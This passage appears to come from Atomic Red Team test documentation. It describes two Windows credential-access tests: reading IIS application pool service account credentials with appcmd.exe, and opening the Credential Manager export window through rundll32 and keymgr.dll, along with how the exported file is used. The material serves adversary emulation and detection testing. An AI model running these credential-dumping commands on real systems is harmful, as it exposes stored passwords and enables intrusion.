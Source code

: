 <br/>
<br/>

## Atomic Test #5 - Retrieve Microsoft IIS Service Account Credentials Using AppCmd (using config)

AppCmd.exe is a command line utility which is used for managing an IIS web server. The config command within the tool reveals the service account credentials configured for the webserver. An adversary may use these credentials for other malicious purposes.
[Reference](https://twitter.com/0gtweet/status/1588815661085917186?cxt=HHwWhIDUyaDbzYwsAAAA)

**Supported Platforms:** Windows

**auto_generated_guid:** 42510244-5019-48fa-a0e5-66c3b76e6049

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
C:\Windows\System32\inetsrv\appcmd.exe list apppool /config
```

#### Dependencies: Run with `powershell`!

##### Description: IIS must be installed prior to running the test

##### Check Prereq Commands:

```powershell
if ((Get-WindowsFeature Web-Server).InstallState -eq "Installed") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Install-WindowsFeature -name Web-Server -IncludeManagementTools
```

<br/>
<br/>

## Atomic Test #6 - Dump Credential Manager using keymgr.dll and rundll32.exe

This test executes the exported function `KRShowKeyMgr` located in `keymgr.dll` using `rundll32.exe`. It opens a window that allows to export stored Windows credentials from the credential manager to a file (`.crd` by default). The file can then be retrieved and imported on an attacker-controlled computer to list the credentials get the passwords. The only limitation is that it requires a CTRL+ALT+DELETE input from the attacker, which can be achieve multiple ways (e.g. a custom implant with remote control capabilities, enabling RDP, etc.).
Reference: https://twitter.com/0gtweet/status/1415671356239216653

**Supported Platforms:** Windows

**auto_generated_guid:** 84113186-ed3c-4d0d-8a3c-8980c86c1f4a

#### Attack Commands: Run with `powershell`!

```powershell
rundll32.exe keymgr,KRShowKeyMgr
```

<br/>
